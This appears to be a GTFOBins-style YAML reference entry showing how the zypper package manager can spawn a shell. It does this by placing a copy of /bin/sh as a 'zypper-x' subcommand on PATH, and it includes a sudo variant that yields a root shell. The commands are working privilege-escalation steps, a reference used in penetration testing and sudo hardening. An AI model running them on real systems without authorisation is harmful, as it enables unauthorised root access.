 functions:
  shell:
    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        export PATH=$TF:$PATH
        zypper x
  sudo:
    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        sudo zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        sudo PATH=$TF:$PATH zypper x
---
